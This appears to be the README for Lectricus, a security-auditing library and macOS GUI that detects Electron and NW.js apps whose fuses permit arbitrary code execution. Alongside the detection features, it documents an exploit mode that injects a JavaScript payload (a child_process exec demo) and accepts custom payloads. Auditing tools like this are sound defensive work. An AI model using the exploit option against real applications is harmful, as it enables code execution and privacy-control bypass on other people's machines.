 <div align="center">
             <img src=".resources/icons/AppIcon.png" alt="App Icon" width="256" />
             <h1>Project Lectricus</h1>
</div>

Python-based library for programmatically detecting potentially misconfigured Electron applications, specifically the `runAsNode` and `enableNodeCliInspectArguments` fuses allowing arbitrary code execution within the context of the application.

----------

First unveiled at MacDevOpsYVR 2024: [Electron Security: Making your Mac a worse place?](https://mdoyvr.com/schedule-2024/)

----------

This project is primarily designed for auditing purposes, starting as a side project after learning about [@tsunek0h's CVE-2023-32546](https://github.com/FFRI/PoC-public/blob/main/cb2023/Koh_Bypassing_macOS_security_and_privacy_mechanisms.pdf) and later on extending the initial work of Wojciech Reguła's [electroniz3r](https://github.com/r3ggi/electroniz3r):

* Programmatic fuse configuration detection
* Multi-platform support (macOS, Windows, Linux)
* Exporting of vulnerable applications to various formats (XML, JSON, CSV, etc.)
* Developed as a library, for easy integration into other projects
* Targets both [Electron](https://www.electronjs.org) and [NW.js](https://nwjs.io/) applications
* Simple macOS GUI for non-technical users

----------

Since the initial conception of Lectricus in late 2023, Electron has released a statement on Electron's `runAsNode` fuse: [Statement regarding "runAsNode" CVEs](https://www.electronjs.org/blog/statement-run-as-node-cves)

Do keep in mind that Electron does not discuss the TCC bypasses that the misconfigured Electron fuses cause.

----------

## Installation

For standalone executables, see [GitHub Releases](https://github.com/ripeda/Lectricus/releases/latest).

For Python-based installation of the Python library, Lectricus is available on [PyPI](https://pypi.org/project/lectricus/):

```sh
$ python3 -m pip install lectricus
```


## Usage - GUI

Simply run `Lectricus (GUI).app` on macOS, and select `List vulnerable electron applications` to get a list of vulnerable applications.

| First window | List applications |
| :--- | :--- |
| ![Lectricus - GUI - First window](.resources/images/Lectricus%20-%20GUI%20-%20First%20window.png) | ![Lectricus - GUI - List applications](.resources/images/Lectricus%20-%20GUI%20-%20List%20applications.png) |


## Usage - Command Line

### List Vulnerable Applications

```sh
$ lectricus --list-vulnerable-apps

>>> Found 4 vulnerable applications 😱
>>> Correctly Configured Electron Fuses:
>>>   - /Applications/1Password.app
>>>   - /Applications/Keeper Password Manager.app
>>>   - /Applications/Slack.app
>>> Lacking Electron Fuse Support:
>>>   - /Applications/Advanced Privacy.app
>>>     - Vulnerabilities:
>>>       - RUN_AS_NODE
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
>>> Misconfigured Electron Fuses:
>>>   - /Applications/Tap Trustee.app
>>>     - Vulnerabilities:
>>>       - RUN_AS_NODE
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
>>>   - /Applications/Affected Makeup.app
>>>     - Vulnerabilities:
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
>>>   - /Applications/Struck Cap.app
>>>     - Vulnerabilities:
>>>       - RUN_AS_NODE
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
```

### Attempt Arbitrary Code Execution

```sh
$ lectricus.py --exploit-application "/Applications/Advanced Privacy.app"

>>> Selected exploit method: run_as_node
>>> Determined entry point: /Applications/Advanced Privacy.app/Contents/MacOS/Advanced Privacy
>>> Running exploit on /Applications/Advanced Privacy.app/Contents/MacOS/Advanced Privacy
>>> JavaScript payload: const { exec } = require("child_process"); exec("/usr/bin/open -a Calculator");
```


### Command Line Parameters

```
Detect and exploit misconfigured Electron applications

options:
  -h, --help            show this help message and exit
  --list-vulnerable-apps, -l
                        List vulnerable applications
  --export, -e          Export vulnerable applications, if '--export-location' is not specified, export to STDOUT
  --format FORMAT, -f FORMAT
                        Export format (xml, plist, json, csv)
  --export-location EXPORT_LOCATION, -o EXPORT_LOCATION
                        Export location
  --app-directory APP_DIRECTORY, -d APP_DIRECTORY
                        Application directory to search. Can provide .app directly
  --sys-platform SYS_PLATFORM, -p SYS_PLATFORM
                        Override sys.platform value used for application search. Useful for cross-platform exploitation on external
                        drives.
  --exploit-application EXPLOIT_APPLICATION, -x EXPLOIT_APPLICATION
                        Application to exploit.
  --exploit-method EXPLOIT_METHOD, -m EXPLOIT_METHOD
                        Exploit method to use.
  --javascript-payload JAVASCRIPT_PAYLOAD, -j JAVASCRIPT_PAYLOAD
                        JavaScript payload to execute. If not specified, open
                        Calculator on macOS.
  --javascript-payload-file JAVASCRIPT_PAYLOAD_FILE, -J JAVASCRIPT_PAYLOAD_FILE
                        JavaScript payload file to execute. Alternative to '--
                        javascript-payload'.
```